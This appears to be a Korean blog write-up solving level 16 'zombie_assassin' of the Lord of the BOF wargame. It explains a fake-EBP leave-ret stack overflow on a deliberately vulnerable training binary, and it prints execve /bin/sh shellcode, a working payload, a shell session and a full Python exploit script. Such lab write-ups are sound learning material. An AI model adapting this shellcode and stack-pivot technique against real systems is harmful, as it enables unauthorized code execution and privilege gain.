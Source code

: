 ```yaml
---
title: "[LOB]Level16. zombie_assassin"
tags: [LOB, writeup, fake EBP]
author: eli_ez3r
key: 20180831
modify_date: 2018-08-31
article_header:
  type: cover
  image:
    src: 
---
```


[Fake EBP](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	// strncpy instead of strcpy!
	strncpy(buffer, argv[1], 48);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis & Exploit

분기문을 통해서 '\xbf', '\x40' 으로 시작하는 주소들을 모두 필터링 된다.

```
[assassin@localhost assassin]$ cat /proc/751/maps
08048000-0817d000 r-xp 00000000 08:05 129443     /usr/bin/gdb
0817d000-08184000 rw-p 00134000 08:05 129443     /usr/bin/gdb
08184000-0850f000 rwxp 00000000 00:00 0
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40018000 rw-p 00000000 00:00 0
40018000-4004d000 r-xp 00000000 08:05 96962      /usr/lib/libncurses.so.4.0
4004d000-40056000 rw-p 00034000 08:05 96962      /usr/lib/libncurses.so.4.0
40056000-4005a000 rw-p 00000000 00:00 0
4005a000-40076000 r-xp 00000000 08:08 34156      /lib/libm-2.1.3.so
40076000-40077000 rw-p 0001b000 08:08 34156      /lib/libm-2.1.3.so
40077000-40164000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40164000-40168000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
40168000-4016c000 rw-p 00000000 00:00 0
4016c000-40182000 r--p 00000000 08:05 32279      /usr/share/locale/en_US/LC_CTYPE
40182000-40290000 rw-p 00000000 00:00 0
bfffb000-c0000000 rwxp ffffc000 00:00 0
```

#### Shellcode를 이용한 공격

```
shellcode(24byte) :
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

payload 시나리오 :

```
./zombie_assassin `python -c print "&[buf+4]"+"shellcode(24byte)"+"\x90"*12+"&[buf-4]"+"&leave-ret 가젯"
```



&[buf-4] : 0xbffffc5c

&buf : 0xbffffc60

&[buf+4] : 0xbffffc64

&leave-ret : 0x080484df



> gdb 통해 얻은 buf의 주소와 실제 구동되는 buf의 주소가 0x10주소 만큼 차이가 나서 삽질을 많이 했다.
>
> => core 덤프를 통해서 알아낸 주소가 buffer 주소가 아닌 main함수 인자값 주소였다. 생각없이 'x/100x $esp' 로 흩어 보면서 찾았는데, x/100x $esp-100 으로 윗부분을 보니 buffer가 존재함;;
>
> => 소스코드를 복사하여 printf("%p", buffer); 를 추가하여 제대로된 주소를 구하는 방법도 있음.

> leave-ret 을 이용하여 fakeEBP기법을 사용하면 esp가 buf+4 로 이동하기 때문에 buf-4의 주소를 넣어주어야 실제 buf 주소가 실행된다.
>
> eip에는 shellcode가 있는 시작 주소가 들어가야 하기 때문에, buf시작 부분에 shellcode의 시작 주소를 넣어주었다.



##### Payload

```
./zombie_assassin `python -c 'print "\x64\xfc\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*12+"\x5c\xfc\xff\xbf"+"\xdf\x84\x04\x08"'`
```

```
릱릱?@?@廈@릱릱릱릱릱릱릱릱릱릱릱릱`?욀?   ☻
bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
bash$ my-pass
euid = 516
no place to hide
```

------

##### python

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/assassin/zombie_assassin"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

buffer_addr = 0xbffffc60
shellcode_addr = buffer_addr + 4
fake_ebp = buffer_addr - 4
leave_ret = 0x080484df

payload = p32(shellcode_addr)
payload = append(shellcode)
payload = append("\x90"*(40-4-24))
payload = append(p32(fake_ebp))
payload = append(p32(leave_ret))

pid = os.fork()
if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

------

